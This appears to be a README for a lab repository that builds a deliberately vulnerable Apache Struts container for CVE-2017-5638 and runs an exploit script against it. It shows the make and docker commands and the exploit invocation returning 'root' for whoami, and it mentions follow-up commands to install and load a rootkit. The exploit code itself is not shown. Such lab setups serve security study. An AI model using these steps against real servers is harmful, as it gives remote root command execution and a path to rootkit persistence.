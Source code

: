 #+TITLE: CVE-2017-5638
This repository contains a vulnerable Apache Struts server

* Build container
  #+begin_src python :results output
% make build
  #+end_src

* Run the vulnerable tomcat server
  #+begin_src python :results output
% make run
docker run -d vulnstruts
8d1de3d1b...
  #+end_src

* Run the exploit

  First, get the IP address of the vulnerable tomcat server docker container 
  #+begin_src python :results output
docker inspect 8d1de3d1b...

"IPAddress": "172.17.0.6",
  #+end_src

  Then run the exploit against the IP address, e.g., whoami, followed by commands to install and load the rootkit.
  #+begin_src python :results output
% make exploit TARGET_IP=<IP address>

python exploitS2-045-cmd.py TARGET_IP:8080 whoami
[Execute]: whoami

root

  #+end_src

* Tools used
  - Debian snapshots repository and our tool to build a Debian jessie image on 20170301. The tool to build the image will be released later because it contains author's information.
  - Parts of the Dockerfile code and exploits are from piesecurity/apache-struts2-CVE-2017-5638
